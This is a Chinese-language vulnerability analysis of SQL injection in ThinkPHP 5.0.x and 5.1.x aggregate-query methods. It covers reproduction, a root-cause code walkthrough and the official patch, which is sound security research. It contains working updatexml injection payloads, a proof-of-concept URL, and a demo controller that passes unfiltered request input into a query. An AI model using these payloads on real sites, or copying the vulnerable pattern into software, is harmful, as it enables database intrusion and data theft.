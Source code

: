 # 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

> 原文：[http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 6.html](http://book.iwonder.run/0day/Thinkphp/ThinkPHP5/ThinkPHP5 漏洞分析之 SQL 注入 6.html)

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL 注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL 注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

**5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
    }
} 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL 注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2](img/c24fc3e0e14e80754321243ab7541e9c.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3](img/c24fc3e0e14e80754321243ab7541e9c.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL 注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4](img/c24fc3e0e14e80754321243ab7541e9c.png)

**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。

![5](img/c24fc3e0e14e80754321243ab7541e9c.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL 注入漏洞** 的发生

![6](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。

![3](img/c24fc3e0e14e80754321243ab7541e9c.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7](img/c24fc3e0e14e80754321243ab7541e9c.png)

## 参考链接

> [https://github.com/Mochazz/ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln)

